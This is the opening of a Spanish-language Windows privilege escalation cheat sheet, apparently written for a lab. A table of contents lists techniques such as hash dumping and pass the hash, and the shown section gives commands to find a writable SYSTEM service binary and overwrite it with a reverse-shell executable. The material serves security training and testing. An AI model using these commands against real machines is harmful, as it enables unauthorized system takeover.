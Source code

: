 ```yaml
---
layout: post
title: WindPrivesc - CheetSheat
tags: [windows,CheetSheat]
description: "WindPrivesc - CheetSheat"
---
```


- [Exploits de servicio ejecutables de servicio inseguros](#exploits-de-servicio-ejecutables-de-servicio-inseguros)
- [Explotaciones de servicio permisos de registro débiles](#explotaciones-de-servicio-permisos-de-registro-d-biles)
- [Exploits de servicio permisos de servicio inseguros](#exploits-de-servicio-permisos-de-servicio-inseguros)
- [Unquoted Service Path](#unquoted-service-path)
- [AlwaysInstallElevated](#alwaysinstallelevated)
- [Grupos y permisos](#grupos-y-permisos)
  * [Accoutn operators](#accoutn-operators)
  * [SeImpersonatePrivilege](#seimpersonateprivilege)
- [Transferencia de archivos](#transferencia-de-archivos)
- [Pwned Psexec](#pwned-psexec)
- [Volcado de hash](#volcado-de-hash)
- [Pass the hash](#pass-the-hash)
- [Aplicaciones de inicio](#aplicaciones-de-inicio)
- [Tareas programadas](#tareas-programadas)
- [Aplicaciones de GUI inseguras](#aplicaciones-de-gui-inseguras)
- [Contraseñas guardadas](#contrase-as-guardadas)
- [Registro ejecuciones automaticas](#registro-ejecuciones-automaticas)
- [RDP](#rdp)

----

##  Exploits de servicio ejecutables de servicio inseguros

 Observe que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME)

```
sc qc filepermsvc
```

Con accesschk.exe, tenga en cuenta que todos pueden escribir en el archivo binario de servicio (BINARY_PATH_NAME)

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Reemplazar el ejecutable por uno malicioso

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```
